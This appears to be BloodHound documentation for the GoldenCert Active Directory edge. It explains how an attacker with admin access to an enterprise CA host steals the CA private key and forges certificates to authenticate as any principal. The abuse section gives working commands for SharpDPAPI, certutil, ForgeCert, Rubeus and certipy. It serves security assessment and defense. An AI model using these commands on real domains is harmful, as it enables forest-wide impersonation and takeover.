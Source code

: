 ```yaml
---
title: GoldenCert
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


The victim principal has a certificate private key that can be abused to sign "golden" certificates for authentication of any enabled principal in the AD forest of the domain.


The victim principal hosts the enrollment service of an enterprise CA, which implies it has the private key of the enterprise CA's certificate. This private key allows an attacker to sign certificates for authentication as any enabled principal in the AD forest of the domain, as the enterprise CA is trusted for NT authentication and chain up to a root CA.

It may not be possible to obtain the certificate private key if it is protected with a Trusted Platform Module (TPM) or using a Hardware Security Module (HSM). However, it may still be possible to compromise the AD forest. Administrative access to the enterprise CA host lets an attacker publish certificate templates, approve denied enrollment requests, and more. The victim principal will have an ESC7 edge to the domain if any such attack has been found possible by BloodHound.

## Abuse Info

### Windows

#### Step 1

Obtain CA certificate incl. private key - using built-in GUI (certsrv.msc)

1.  Open certsrv.msc as Administrator on the enterprise CA host.
2.  Right-click on the enterprise CA and select "All Tasks" followed by "Back up CA...".
3.  Click "Next", select "Private key and CA certificate", and select the location folder.
4.  Click "Next", and set a password.
5.  Click "Next" and click "Finish" to back up the certificate as a .p12 file.

#### Step 2

Obtain CA certificate incl. private key - using commandline tools

* Print all certificates of the host using SharpDPAPI.  The enterprise CA certificate is the one where issuer and subject are identical.
```
SharpDPAPI.exe certificates /machine
```
* Save the private key in .key file (e.g. cert.key) and the certificate in .pem file (cert.pem) in the same folder.
* Create a .pfx version of the CA certificate using certutil:
```
certutil.exe -MergePFX .\\cert.pem .\\cert.pfx
```
* Set password when prompted.

#### Step 3

Forge certificate and obtain a TGT as targeted principal.

* Forge a certificate of a target principal using ForgeCert:
```
ForgeCert.exe --CaCertPath cert.pfx --CaCertPassword "password123!" --Subject "CN=User" --SubjectAltName "roshi@dumpster.fire" --NewCertPath target.pfx --NewCertPassword "NewPassword123!"
```
* Request a TGT for the targeted principal using the certificate with Rubeus:
```
Rubeus.exe asktgt /user:Roshi /domain:dumpster.fire /certificate:target.pfx /password:NewPassword123!
```
### Linux

#### Step 1

* Back up the CA certificate with the credentials of a user with admin access on the enterprise CA host using Certipy.  The enterprise CA certificate is the one where issuer and subject are identical.
```
certipy ca -backup -ca 'dumpster-DC01-CA' -username jd@dumpster.fire -password 'Password123!
```
#### Step 2

Forge a certificate of a target principal:
```
certipy forge -ca-pfx dumpster-DC01-CA.pfx -upn Roshi@dumpster.fire -subject 'CN=Roshi,OU=Users,OU=Tier0,DC=dumpster,DC=fire
```
#### Step 3

Request a TGT for the targeted principal using the certificate against a given DC:
```
 certipy auth -pfx roshi_forged.pfx -dc-ip '192.168.100.10
```
## Opsec Considerations

When an attacker abuses a privilege escalation or impersonation primitive that relies on this relationship, it will necessarily result in the issuance of a certificate. A copy of the issued certificate will be saved on the host that issued the certificate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* https://attack.mitre.org/techniques/T1649/

### Abuse and Opsec references

* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [https://github.com/GhostPack/SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)
* [https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)
* [https://github.com/GhostPack/ForgeCert](https://github.com/GhostPack/ForgeCert)
* [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
* [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

